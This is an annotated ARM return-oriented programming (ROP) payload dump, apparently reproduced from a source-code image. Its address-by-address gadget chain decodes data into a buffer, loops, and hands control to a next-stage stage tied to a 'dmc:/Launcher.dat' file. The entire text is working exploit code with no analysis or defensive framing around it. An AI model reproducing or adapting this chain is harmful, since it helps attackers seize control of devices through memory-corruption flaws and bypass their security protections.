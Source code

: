```
    0x08B47554: 0x00158DE7 ; R1 = R0 = (decoded data), BLX LR
    0x08B47558: 0x002AD574 ; LDMFD   SP!, {R0,PC}
    0x08B4755C: 0x08B47618 ; R0 (&buffer;)
    0x08B47560: 0x001CCC64 ; R0 = *R0 = buffer, LDMFD   SP!, {R4,PC}
    0x08B47564: 0x0011FFFD ; R4, dummy
    0x08B47568: 0x00119B94 ; *R0 = R1 = (decoded data), LDMFD   SP!, {R4,PC}
    0x08B4756C: 0x00106694 ; R4, dummy
    0x08B47570: 0x00269758 ; LDMFD   SP!, {R1,PC}
    0x08B47574: 0x00000004 ; R1
    0x08B47578: 0x00207954 ; R0 = R0 + R1 (buffer + 4), LDMFD   SP!, {R4,PC}
    0x08B4757C: 0x00130344 ; R4, dummy
    0x08B47580: 0x00269758 ; LDMFD   SP!, {R1,PC}
    0x08B47584: 0x08B47618 ; R1 (&buffer;)
    0x08B47588: 0x00140450 ; *R1 = R0 (set new buffer), LDMFD   SP!, {R4,PC}
    0x08B4758C: 0x00100D24 ; R4, dummy
    0x08B47590: 0x00269758 ; LDMFD   SP!, {R1,PC}
    0x08B47594: 0xF70FB000 ; R1
    0x08B47598: 0x00207954 ; R0 = R0 + R1 = 0xFFFFC004, LDMFD   SP!, {R4,PC}
    0x08B4759C: 0x00119864 ; R4, dummy
    0x08B475A0: 0x001B560C ; SET_FLAGS (R0 != 0), if (flags) R0 = 1, LDMFD   SP!, {R3,PC}
    0x08B475A4: 0x002059C0 ; R3, dummy
    0x08B475A8: 0x002AD574 ; LDMFD   SP!, {R0,PC}
    0x08B475AC: 0x08B47610 ; R0 (val for LR)
    0x08B475B0: 0x00269758 ; LDMFD   SP!, {R1,PC}
    0x08B475B4: 0x08F00FFC ; R1
    0x08B475B8: 0x00119B94 ; *R0 = R1 = 0x08F00FFC (next stage), LDMFD   SP!, {R4,PC}
    0x08B475BC: 0x00355FD4 ; R4, dummy
    0x08B475C0: 0x00269758 ; LDMFD   SP!, {R1,PC}
    0x08B475C4: 0x08B474A8 ; R1
    0x08B475C8: 0x0020E780 ; if (flags) *R0 = R1 = 0x08B474A8 (loop), LDMFD   SP!, {R4,PC}
    0x08B475CC: 0x002C2215 ; R4, dummy
    0x08B475D0: 0x0010FFFD ; (nop) POP {PC}
    0x08B475D4: 0x0010FFFD ; (nop) POP {PC}
    0x08B475D8: 0x00103DA8 ; LDMFD   SP!, {R4-R12,PC}
    0x08B475DC: 0x002D5654 ; R4, dummy
    0x08B475E0: 0x00103778 ; R5, dummy
    0x08B475E4: 0x002FA864 ; R6, dummy
    0x08B475E8: 0x00119B94 ; R7, dummy
    0x08B475EC: 0x0020E780 ; R8, dummy
    0x08B475F0: 0x00128605 ; R9, dummy
    0x08B475F4: 0x00103DA8 ; R10, dummy
    0x08B475F8: 0x08B475F8 ; R11, dummy
    0x08B475FC: 0x0010FFFD ; R12, dummy
    0x08B47600: 0x0018114C ; LDMFD   SP!, {R4-R6,LR}
    0x08B47604: 0x0010FFFD ; R4, dummy
    0x08B47608: 0x002FC8E4 ; R5, dummy
    0x08B4760C: 0x001037E0 ; R6, dummy
    0x08B47610: 0x0023C494 ; LR (later set to 0x08B474A8)
    0x08B47614: 0x002D6A30 ; SP = LR, LDMFD   SP!, {LR,PC}
    ... END OF ROP PAYLOAD ...
    0x08B47618: 0x08F01000 ; buffer
    0x08B4761C: 0x002D6A1C ; 
    0x08B47620: 0x08B47400 ; 
    0x08B47624: 0x0010FFFD ; 
    0x08B47628: 0x0010FFFD ; 
    0x08B4762C: 0x002D6A1C ; 
    0x08B47630: L"dmc:/Launcher.dat"
    0x08B47654: 0x00000000 ; 
    0x08B47658: 0x00000000 ; 
    0x08B4765C: 0x00000000 ; 
    0x08B47660: 0x00000000 ; 
    0x08B47664: 0x00000000 ; 
    0x08B47668: 0x00000000 ; 
```